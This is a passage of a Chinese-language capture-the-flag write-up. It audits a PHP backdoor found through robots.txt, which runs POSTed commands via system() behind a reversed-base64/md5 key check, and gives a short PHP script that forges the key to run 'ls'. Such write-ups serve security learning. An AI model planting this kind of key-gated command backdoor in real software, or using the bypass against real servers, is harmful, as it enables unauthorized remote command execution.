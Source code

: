 我们连起来进行base64解码

得到flag

### 智械危机

题目提示有个后门，我们打开robots.txt，发现有个文件，我们访问

```
<?php

function execute_cmd($cmd) {
    system($cmd);
}

function decrypt_request($cmd, $key) {
    $decoded_key = base64_decode($key);
    $reversed_cmd = '';
    for ($i = strlen($cmd) - 1; $i >= 0; $i--) {
        $reversed_cmd .= $cmd[$i];
    }
    $hashed_reversed_cmd = md5($reversed_cmd);
    if ($hashed_reversed_cmd !== $decoded_key) {
        die("Invalid key");
    }
    $decrypted_cmd = base64_decode($cmd);
    return $decrypted_cmd;
}

if (isset($_POST['cmd']) && isset($_POST['key'])) {
    execute_cmd(decrypt_request($_POST['cmd'],$_POST['key']));
}
else {
    highlight_file(__FILE__);
}
?>
```

进行代码审计

execute_cmd用来执行命令

我们重点来看decrypt_request

首先将key进行base64解码，然后将cmd逆向进入reversed_cmd

然后将reversed_cmd进行md5加密，再判断hashed_reversed_cmd是否和decoded_key的md5相等，最后再讲cmd进行base64解码，返回这个值

所以我们的思路是先构造好cmd命令，再将其进行base64加密，就是我们要传的cmd参数

key的话，要先将cmd的base64加密的值进行逆向再md5加密

写个加密小脚本

```
<?php
$cmd=base64_encode("ls");
echo "cmd=",$cmd,PHP_EOL;
$key=strrev($cmd);
echo "key=",base64_encode( md5($key));
?>
```
